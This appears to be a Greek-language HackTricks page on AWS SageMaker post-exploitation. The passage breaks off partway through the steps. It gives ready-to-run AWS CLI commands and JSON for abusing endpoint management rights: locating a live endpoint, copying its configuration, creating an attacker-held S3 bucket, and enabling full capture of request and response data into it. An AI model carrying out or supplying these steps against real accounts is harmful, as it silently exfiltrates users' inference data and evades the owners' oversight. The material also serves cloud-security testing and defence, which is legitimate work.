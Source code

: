 # AWS - SageMaker Post-Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker endpoint data siphon via UpdateEndpoint DataCaptureConfig

Καταχράσου τη διαχείριση endpoint του SageMaker για να ενεργοποιήσεις πλήρη καταγραφή αιτήσεων/απαντήσεων σε ένα S3 bucket που ελέγχεται από επιτιθέμενο, χωρίς να αγγίξεις το μοντέλο ή το container. Χρησιμοποιεί μια rolling update με μηδενικό/χαμηλό downtime και απαιτεί μόνο δικαιώματα διαχείρισης endpoint.

### Απαιτήσεις
- IAM: `sagemaker:DescribeEndpoint`, `sagemaker:DescribeEndpointConfig`, `sagemaker:CreateEndpointConfig`, `sagemaker:UpdateEndpoint`
- S3: `s3:CreateBucket` (ή χρησιμοποίησε ένα υπάρχον bucket στον ίδιο λογαριασμό)
- Προαιρετικό (εάν χρησιμοποιείς SSE‑KMS): `kms:Encrypt` στην επιλεγμένη CMK
- Στόχος: Ένας υπάρχων InService real‑time endpoint στον ίδιο λογαριασμό/περιοχή

### Βήματα
1) Εντόπισε ένα InService endpoint και συγκέντρωσε τα τρέχοντα production variants
```bash
REGION=${REGION:-us-east-1}
EP=$(aws sagemaker list-endpoints --region $REGION --query "Endpoints[?EndpointStatus=='InService']|[0].EndpointName" --output text)
echo "Endpoint=$EP"
CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
echo "EndpointConfig=$CFG"
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CFG" --query ProductionVariants > /tmp/pv.json
```
2) Προετοιμάστε τον attacker S3 προορισμό για captures
```bash
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-capture-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
```
3) Δημιουργήστε ένα νέο EndpointConfig που διατηρεί τις ίδιες variants αλλά ενεργοποιεί το DataCapture στο attacker bucket

Note: Χρησιμοποιήστε ρητούς τύπους περιεχομένου που ικανοποιούν την επικύρωση του CLI.
```bash
NEWCFG=${CFG}-dc
cat > /tmp/dc.json << JSON
{
"EnableCapture": true,
"InitialSamplingPercentage": 100,
"DestinationS3Uri": "s3://$BUCKET/capture",
"CaptureOptions": [
{"CaptureMode": "Input"},
{"CaptureMode": "Output"}
],
"CaptureContentTypeHeader": {
"JsonContentTypes": ["application/json"],
"CsvContentTypes": ["text/csv"]
}
}
JSON
aws sagemaker create-endpoint-config \
--region $REGION \
--endpoint-config-name "$NEWCFG" \
--production-variants file:///tmp/pv.json \
```
